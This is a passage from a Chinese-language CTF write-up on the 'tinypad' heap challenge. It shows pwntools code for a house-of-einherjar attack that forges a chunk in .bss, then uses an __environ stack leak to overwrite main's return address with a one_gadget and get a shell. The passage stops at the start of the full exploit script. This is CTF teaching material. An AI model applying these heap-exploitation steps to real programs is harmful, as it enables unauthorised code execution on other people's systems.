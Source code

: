 这里完成之后还是要把堆清到`top chunk`里的。

**然后**就可以house of einherjar来强行申请到`bss`段`tinypad`的内存了。

首先构造构造四个堆，用前两个堆来house of einherjar，然后用剩下的两个堆来调整数据。

```python
add(0x18, 'a' * 0x18)  # idx 0
add(0x100, 'b' * 0xf8 + '\x11')  # idx 1
add(0x100, 'c' * 0xf8)  # idx 2
add(0x100, 'd' * 0xf8)  #idx 3

tinypad_addr = 0x602040
fake_chunk = flat([
	p64(0),
	p64(0x101),
	p64(tinypad_addr + 0x20),
	p64(tinypad_addr + 0x20)
])
edit(3, 'd' * 0x20 + fake_chunk)

offset = heapbase + 0x20 - (tinypad_addr + 0x20)
print(hex(offset))
offset_strip = p64(offset).strip('\x00')
number_of_zeros = len(p64(offset)) - len(offset_strip)
for i in range(number_of_zeros + 1):
	data = offset_strip.rjust(0x18 - i, 'f')
	edit(1, data)
delete(2)
```

然后要申请这块空间就要先通过第四个`chunk`来调整`fake_chunk`来调整`fake_chunk`的`bk和fd`指针通过检查。

```python
payload = flat([
	'd' * 0x20,
	p64(0),
	p64(0x101),
	p64(main_arena + 88),
	p64(main_arena + 88)
])
edit(4, payload)
```

这里就万事大吉了。

**接下来**就通过可以控制`bss`段指向前两个`chunk`的指针修改任意地址了。

我们首先让第一个指针指向`__environ`地址，泄漏栈地址来得到`main`返回地址的位置方便修改，然后让第二个指针指向地址一个指针的地址。

这样下次修改就可以把第一个指针指向的地址改成`main`返回地址，然后修改这里为`gadget`。就可以拿到shell了。

这里之所以要用`__environ`，是因为经gdb调试后发现常规的`malloc_hook`地址那里由于`strlen`缘故没法编辑成`gadget`。

### 0x2 EXP

```python
#! /usr/bin/python
#-*- coding: utf-8 -*-
from pwn import *

p = process('./tinypad')
libc = ELF('libc.so.6')
elf = ELF('./tinypad')

main_arena_offset = 0x3c4b20

context.terminal = ['tmux', 'splitw', '-h']
context.log_level = 'debug'
```
